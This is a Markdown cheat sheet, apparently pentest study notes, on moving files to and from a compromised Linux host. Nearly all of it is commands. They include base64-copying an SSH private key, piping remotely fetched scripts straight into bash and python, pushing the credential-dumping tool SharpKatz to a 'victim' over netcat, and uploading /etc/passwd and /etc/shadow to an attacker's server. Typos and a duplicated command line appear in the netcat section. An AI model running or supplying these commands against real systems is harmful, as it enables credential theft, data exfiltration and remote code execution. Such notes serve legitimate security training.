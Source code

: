 # Content
- [Download Operations](#download-operations)
  - [Base64 Encoding / Decoding](#1-base64-encoding--decoding)
  - [Web Downloads](#2-web-downloads)
  - [SSH Downloads](#3-ssh-downloads)
- [Upload Operations](#upload-operations)
  - [Web Upload](#web-upload)
  - [Alternative Web File Transfer Method](#alternative-web-file-transfer-method)
  - [SCP Upload](#scp-upload)

# Download Operations

## 1) Base64 Encoding / Decoding
- encode
```bash
$ cat id_rsa |base64 -w 0;echo
```
- paste
```bash
$ echo -n '<base64>' | base64 -d > id_rsa
```

## 2) Web Downloads 

### with Wget and cURL
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Note:** Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.


```bash
$ exec 3<>/dev/tcp/10.10.10.32/80

$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

$ cat <&3
```

## 3) SSH Downloads
- start ssh
```
sudo systemctl start ssh
```
- connect to it
```
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## 4) nc tools
- **attacker**
```
## attacker lestin
sudo nc -l -p 443 -q 0 < SharpKatz.exe
sudo ncat -l -p 443 --send-only < SharpKatz.exe
## victim connect
sudo ncat -l -p 443 --send-only < SharpKatz.exe
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

## OR vicitm lestin
nc -l -p 8000 > SharpKatz.exe
ncat -l -p 8000 --recv-only > SharpKatz.exe
## attacker send
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

```

# Upload Operations

## Web Upload

- upload server
```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- get to it
```
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
- create web server
```
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000
```
- get from it 
```
wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload

```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
